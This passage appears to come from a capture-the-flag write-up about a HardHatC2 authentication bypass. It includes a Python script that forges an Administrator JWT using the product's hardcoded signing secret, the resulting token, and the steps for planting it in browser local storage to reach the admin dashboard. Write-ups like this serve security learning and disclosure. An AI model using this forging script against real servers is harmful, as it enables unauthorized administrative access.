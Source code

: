 However I did not know what the claims of the JWT was supposed to be. So I dug and found this article: [HardHatC2 0-Days (RCE & AuthN Bypass)](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7) 

To generate the JWT I modified the scrip from the article:

```python
import jwt
import datetime
import uuid
import requests

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
```

which gives something like: 

```
Generated JWT:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJIYXJkSGF0X0FkbWluIiwianRpIjoiMjNmMDJiOGEtOTNiOS00NWYwLTkyMDQtM2I1YjlkNzY2YTJhIiwiaHR0cDovL3NjaGVtYXMueG1sc29hcC5vcmcvd3MvMjAwNS8wNS9pZGVudGl0eS9jbGFpbXMvbmFtZWlkZW50aWZpZXIiOiIxIiwiaXNzIjoiaGFyZGhhdGMyLmNvbSIsImF1ZCI6ImhhcmRoYXRjMi5jb20iLCJpYXQiOjE3NDg1OTM0NDQsImV4cCI6MTc1MTAxMjY0NCwiaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93cy8yMDA4LzA2L2lkZW50aXR5L2NsYWltcy9yb2xlIjoiQWRtaW5pc3RyYXRvciJ9.vbG7RmL1k1zj9FxNTKRpzmHoHaRCWuLMzRNU92wDSRg
```

I could not figure out how to include in a header or as a cookie in firefox. It proved usefull that I had earlier built the service locally, so I logged in as `HardHat_Admin` with the credentials from build log. I then discovered that the JWT was stored in local storage(In hindsight this is common for C# and/or Blazor Apllications).

I had to set:
- `UserName: HardHat_Admin`
- `bearerToken: ey......`

Refreshing the page authenticates us, and we are shown the *Admin Dashboard*. There is not much we can do on this page, but create a new user or webhook.
